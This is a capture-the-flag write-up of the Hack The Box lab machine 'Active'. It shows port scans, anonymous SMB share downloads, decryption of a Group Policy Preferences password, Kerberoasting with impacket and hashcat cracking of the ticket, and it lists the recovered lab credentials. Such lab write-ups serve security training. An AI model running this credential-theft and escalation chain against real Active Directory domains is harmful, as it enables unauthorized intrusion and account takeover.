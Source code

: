 ### Host entries:
```bash
10.10.10.100  active.htb
```
If Active Directory => [[Synchronize NTP]] with the domain controller.

# Content

- SMB Enumeration
- SMB Full share replication to local machine [[SMB Download]] `smbclient mget*`
- GPP Decryption
- Kerberoasting
- Hashcat TGS crack

# Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- --open --min-rate 5000 -Pn -n -vvv -oG allPorts 10.10.10.100
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.100 ()   Status: Up
Host: 10.10.10.100 ()   Ports: 53/open/tcp//domain///, 88/open/tcp//kerberos-sec///, 135/open/tcp//msrpc///, 139/open/tcp//netbios-ssn///, 389/open/tcp//ldap///, 445/open/tcp//microsoft-ds///, 464/open/tcp//kpasswd5///, 593/open/tcp//http-rpc-epmap///, 636/open/tcp//ldapssl///, 3268/open/tcp//globalcatLDAP///, 3269/open/tcp//globalcatLDAPssl///, 9389/open/tcp//adws///, 47001/open/tcp//winrm///, 49152/open/tcp//unknown///, 49153/open/tcp//unknown///, 49154/open/tcp//unknown///, 49155/open/tcp//unknown///, 49157/open/tcp//unknown///, 49158/open/tcp//unknown///, 49165/open/tcp//unknown///, 49166/open/tcp//unknown///, 49168/open/tcp//unknown///
```
Services and Versions running:
```bash
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,9389,47001,49152,49153,49154,49155,49157,49158,49165,49166,49168 -sCV -Pn -n -vvv -oN targeted 10.10.10.100
Nmap scan report for 10.10.10.100
Host is up, received user-set (0.089s latency).
Scanned at 2023-02-09 00:37:51 EST for 73s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-09 05:37:58Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc         syn-ack Microsoft Windows RPC
49153/tcp open  msrpc         syn-ack Microsoft Windows RPC
49154/tcp open  msrpc         syn-ack Microsoft Windows RPC
49155/tcp open  msrpc         syn-ack Microsoft Windows RPC
49157/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         syn-ack Microsoft Windows RPC
49165/tcp open  msrpc         syn-ack Microsoft Windows RPC
49166/tcp open  msrpc         syn-ack Microsoft Windows RPC
49168/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled and required
|_clock-skew: 0s
| smb2-time: 
|   date: 2023-02-09T05:38:55
|_  start_date: 2023-02-09T05:22:50
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 38577/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 40109/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 51069/udp): CLEAN (Timeout)
|   Check 4 (port 38631/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
```
Enumerating port 445 we identify that we have Read access to the Replication share:
```bash
crackmapexec smb 10.10.10.100 -u '' -p '' --shares
SMB 10.10.10.100 445 DC [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB 10.10.10.100 445 DC [+] active.htb\: 
SMB 10.10.10.100 445 DC [+] Enumerated shares
SMB 10.10.10.100 445 DC Share   Permissions  Remark
SMB 10.10.10.100 445 DC -----   -----------  ------
SMB 10.10.10.100 445 DC ADMIN$ Remote Admin
SMB 10.10.10.100 445 DC C$  Default share
SMB 10.10.10.100 445 DC IPC$Remote IPC
SMB 10.10.10.100 445 DC NETLOGON  Logon server share 
SMB 10.10.10.100 445 DC Replication  READ 
SMB 10.10.10.100 445 DC SYSVOL Logon server share
SMB 10.10.10.100 445 DC Users
```
We then enumerate the share, it has a lot of information within so we rather prefer to download the whole volume locally: ^72bf14
```bash
# First connect to the machine
smbclient //10.10.10.100/Replication -N
# Then turn off the Prompt and turn on the replicate function
smb: \> RECURSE ON
smb: \> PROMPT OFF
# Finally extract all the files
smb: \> mget *
```
We then check what info is within the share:
![[Pasted image 20230209005650.png]]
# Exploitation
This structure is very similar to the SYSVOL share so we know that there is a Groups.xml, this file can have a GPP hash that can be decrypted: ^959fa1
```bash
cat ./active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```
And we can decrypt the cpassword with gpp-decrypt utility:
```bash
# Decrypting cpassword
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ

GPPstillStandingStrong2k18
```

# Root privesc
Now, since we know that there is no port tcp-5985 to login directly open we can keep the enumeration on port tcp-445, the next share interesting is not SYSVOL but Users and this is its structure:
![[Pasted image 20230209010606.png]]
After a deep enumeration, we couldn't identify any useful file that could provide a privesc or a lateral movement so we tried another approach which is a [[Kerberoasting (Service Account Attacks)]]. ^659f81
```bash
impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-09 00:24:03.458965             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
d03f8fe0c361c57c9c755c7d8a1024dd38c4beaf73a3688eb2c103450979c4e729c0b6d21a44160b71cc6             
```
This means that we can extract a TGS ticket directly from the DC, and we successfully get it, so next thing to do is to crack it with [[Hashcat]]:
```bash
D:\Programas\hashcat-6.2.5>hashcat.exe -m 13100 -a 0 hash.txt rockyou.txt
hashcat (v6.2.5) starting


$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$
...
f0cc1679087568696baa79fef670721b$0bd9f0addc75c15876fda2aae6fc4a9611250979c4e729c0b6d21a44160b71cc6:Ticketmaster1968
```
# Credentials
```bash
svc_tgs:GPPstillStandingStrong2k18
Administrator:Ticketmaster1968
```

# Notes

- We can extract a share with SMB directly by abusing of the [[SMB Download]] with SMBClient `mget *` functionality.

# Resources:
* None


